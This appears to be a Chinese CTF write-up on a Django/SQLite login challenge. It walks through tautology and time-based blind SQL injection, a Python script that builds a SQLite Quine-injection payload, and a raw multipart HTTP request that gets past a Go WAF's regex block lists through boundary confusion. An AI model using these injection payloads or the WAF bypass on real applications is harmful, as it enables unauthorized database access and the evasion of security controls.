# Django框架下的Sqlite的Quine注入-先知社区

> **来源**: https://xz.aliyun.com/news/17199  
> **文章ID**: 17199

---

## 整体概况



审计代码，发现有sql注入的地方

该题目是出自django框架下的，使用了sqlite的数据库，所以语法跟mysql不太一样



同时配备了waf

但是我们先不管题目的waf，看看如何注入

## 代码审计

由于不能使用注释符号，我们利用

```
SELECT * FROM blog_adminuser WHERE username='admin' and password ='1' or '1'='1'
```

这种方式，来闭合后面的单引号

这里我在本地起了一个环境



在adminuser模型中插入了一条数据



输入正确的用户名和密码，返回环境变量



那么我们试试上面那个闭合的方式能否成功呢？

对比

输入

```
username=admin&password=1' or '1' = '1
```



输入

```
username=admin&password=123
```



虽然前台回显是一样的，但前面一个发现users[0]是有值的，而后面的是查不出来的

说明我们的闭合方式是正确的。

或者我们也可以利用

```
|| '';
```

这样的闭合方式



这种闭合方式我们下面会提到

## 构造语句

由于回显只有wrong password这个

于是考虑时间盲注

```
https://xz.aliyun.com/news/8220?time__1311=YqUxg7DQi%3D30HRx%2BhDArUbQo7ImE8bD&u_atoken=58152562906c4a6fbc13aad20516277c&u_asig=0a47319217415005127571632e0046
```

拼接到payload

```
username=admin&password=aaa' or (case when(substr((select group_concat(password) from blog_adminuser),1,1)>1) then randomblob(1000000000) else 0 end) or '1'='1
```



这里延时了四秒

但仔细分析源码，以及源码给出的sqlite附件，因为sqlite附件里面的数据表也是为空的，没有admin

所以我猜想有没有可能这个admin和password根本就不存在呢？

或者说要我们虚构一个，才行。



这里我联想到之前做过的一题mysql，也是插入一个虚拟的数据，然后才能获得flag

但是waf把update给ban掉了，而且很多函数都用不了。

## Quine注入

参考的文章

<https://blog.csdn.net/weixin_53090346/article/details/125531088?fromshare=blogdetail&sharetype=blogdetail&sharerId=125531088&sharerefer=PC&sharesource=git_clone&sharefrom=from_link>

<https://blog.csdn.net/qq_35782055/article/details/130348274?fromshare=blogdetail&sharetype=blogdetail&sharerId=130348274&sharerefer=PC&sharesource=git_clone&sharefrom=from_link>

### replace函数

```
REPLACE(字段名/字符串, '待替换子字符串', '替换后子字符串')
```



例如上面的替换



下面看这个语句

```
select replace(".",char(46),".");
```

匹配字符串".“中ascii码为46的字符并替换为”.“,也就是将”.“转换为”."并返回

那么混淆一点的就变成下面的

```
select replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")');
```



返回的结果是上图所示，区别就是单引号和双引号。

第一列其实就是我们执行语句的那一列，

也可以理解成我们输入的payload

第二列就是替换后结果。

那么其实我们的目的就是想让第一列和第二列的样子是一样的，

这样题目在没有admin的用户情况下，password输入的payload和返回值就是一样的

但是由于替换为双引号之后，输入和输出的结果就是不一样了。

### 构造payload



我这里本地测试的话发现是需要构造三列的



但是为什么那道相似的题目就不用构造成三列呢？



因为另外那道题是直接把password这列给取出来了，而我们本题是\*，把所有列都取出来了，

第三列才是我们要回显的地方。

由于实在是太绕了，我们直接用文章的脚本，然后改一点地方

```
sql = "1' union select 1,2, #"
sql2 = sql.replace("'",'"')
base = "replace(replace('.',char(34),char(39)),char(46),'.')"
final = ""
def add(string):
    if ("--+" in string):
        tem = string.split("--+")[0] + base + "--+"
    if ("#" in string):
        tem = string.split("#")[0] + base + "#"
    return tem
def patch(string,sql):
    if ("--+" in string):
        return sql.split("--+")[0] + string + "--+"
    if ("#" in string):
        return sql.split("#")[0] + string + "#"

res = patch(base.replace(".",add(sql2)),sql).replace(" ","/**/").replace("'.'",'"."')

print(res)
```

输出的结果是这样的

```
1'/**/union/**/select/**/1,2,/**/replace(replace('1"/**/union/**/select/**/1,2,/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/1,2,/**/replace(replace(".",char(34),char(39)),char(46),".")#')#
```

但是这个payload还是不能够用，考虑到注释符号要绕过，就要用我们上面分析的闭合单引号方法

最终改成这样

```
1'/**/union/**/select/**/1,2,/**/replace(replace('1"/**/union/**/select/**/1,2,/**/replace(replace(".",char(34),char(39)),char(46),".") || "',char(34),char(39)),char(46),'1"/**/union/**/select/**/1,2,/**/replace(replace(".",char(34),char(39)),char(46),".") || "') || '
```

但是为什么有些注释是|| "有些又是|| '呢？

因为在括号里面会被替换，我们在括号内的闭合就得用双引号，最外面那层直接用单引号闭合即可





成功绕过waf，然后打印出本地的环境变量

### 绕过waf

```
var sqlInjectionPattern = regexp.MustCompile(`(?i)(union.*select|select.*from|insert.*into|update.*set|delete.*from|drop\s+table|--|#|\*\/|\/\*)`)

var rcePattern = regexp.MustCompile(`(?i)(\b(?:os|exec|system|eval|passthru|shell_exec|phpinfo|popen|proc_open|pcntl_exec|assert)\s*\(.+\))`)

var hotfixPattern = regexp.MustCompile(`(?i)(select)`)
```

基本上能用的都被ban了，怎么办呢？

参考文章

<https://sym01.com/posts/2021/bypass-waf-via-boundary-confusion/>

<https://www.geekby.site/2022/03/waf-bypass/>

利用 multipart boundary 绕过 WAF

go要是遇见带filename的直接就不读了，然后python的就会跳过，直接读下一个

然后我们就构造出这样的报文

```
POST /flag/ HTTP/1.1
Host: localhost:8000
Content-Length: 539
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhlsdrFjVa9s4COoP
Connection: close

------WebKitFormBoundaryhlsdrFjVa9s4COoP
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryhlsdrFjVa9s4COoP
Content-Disposition: form-data; name="nopassword";filename="nopassword"
Content-Disposition: form-data; name="password"

1' union select 1,2,replace(replace('1" union select 1,2,replace(replace(".",char(34),char(39)),char(46),".") || "',char(34),char(39)),char(46),'1" union select 1,2,replace(replace(".",char(34),char(39)),char(46),".") || "') || '
------WebKitFormBoundaryhlsdrFjVa9s4COoP--
```



最后也是拿到flag
